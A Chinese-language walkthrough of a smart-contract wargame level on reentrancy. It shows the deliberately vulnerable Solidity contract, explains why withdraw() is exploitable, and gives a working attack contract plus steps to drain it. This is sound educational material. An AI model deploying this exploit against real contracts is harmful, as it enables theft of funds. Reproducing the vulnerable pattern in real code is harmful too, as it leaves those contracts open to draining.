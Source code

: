 ### 第十关 Re-entrancy
### 难度3/5
## 这一关的通关条件是把合约的钱盗走。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
先看代码，该合约主要有四个函数。
1. donate函数，是一个payable修饰的函数，将输入参数地址的balances增加。
2. balanceOf函数，是一个view函数，表示该函数不会改变区块链的状态，只读取数据。这里的作用就是查询地址的余额。
3. withdraw函数，是一个“动账”函数。首先函数判断调用地址的余额是否大于输入的_amount数量，然后使用一个call的低级调用，向调用地址发送_amount数量的eth，如果调用成功，返回true，否则返回false。然后把调用地址的余额给减掉。
4. 一个receive函数，加了payable修饰。
根据合约名以及提示，我们可以知道这关需要利用重入漏洞攻击。在进行转账交易时，应该遵循检测“余额-修改记录-转账”这样的流程，不然有时候会发生一些意想不到的问题，这里的重入攻击便是。所以我们只需要在withdraw函数调用的时候再次调用withdraw就可以在修改balance之前把合约里的钱掏光。
## 解题步骤：
1. 打开remix，写入攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
    function withdraw(uint256 _amount) external;
}

contract Attack {

    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function addBalance(uint256 _amount) public {
        IReentrance(levelInstance).withdraw(_amount);
    }

    receive() external payable {
        IReentrance(levelInstance).withdraw(msg.value);
    }
}
```
2. 部署合约，调用level合约里的donate函数，先给我们的地址余额增加不为0，以通过检查。
```Javascript
await contract.donate("攻击合约地址", {value: 不为0即可(单位wei)})
```
4. 调用攻击合约里的addBalance函数，value填入调用donate函数的值,我们的就能重入withdraw函数。
5. 提交过关。
